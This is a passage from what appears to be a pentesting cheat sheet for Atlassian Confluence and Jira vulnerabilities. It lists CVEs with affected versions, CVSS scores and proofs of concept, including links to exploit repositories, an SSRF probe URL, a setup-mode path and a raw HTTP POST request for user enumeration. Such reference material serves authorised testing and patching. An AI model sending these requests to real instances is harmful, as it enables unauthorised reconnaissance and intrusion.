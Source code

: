 Copy

```
https://github.com/j3seer/CVE-2023-22515-POC
https://github.com/Chocapikk/CVE-2023-22515
```

**CVE-2022-26138**

**Version**: `2.7.34, 2.7.35, and 3.0.2` (The Atlassian Questions For Confluence app for Confluence Server and Data Center) **CVSS 3.x**: `9.8 CRITICAL AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `None` **POC**:

Copy

```
https://github.com/alcaparra/CVE-2022-26138
https://github.com/z92g/CVE-2022-26138
```

**CVE-2019-20101**

**Version**: `< 8.13.3`, `8.14.0 <= x < 8.14.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
/rest/whitelist/<version>/check
/rest/whitelist/1/check?url=http://ya.ru
```

**Atlassian JIRA Setup - Installer**

**Privileges Required**: `None` **POC**: `https://<JIRA>/secure/SetupMode!default.jspa`

**CVE-2019-8446**

**Version**: `< 8.3.2` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
POST /rest/issueNav/1/issueTable HTTP/1.1
Host: <JIRA>
Connection: Close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
X-Atlassian-Token: no-check
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{'jql':'project in projectsLeadByUser("{{randstr}}")'}
```

**CVE-2022-39960**

**Version**: `< 1.0.3` (Jira Netic Group Export add-on) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:
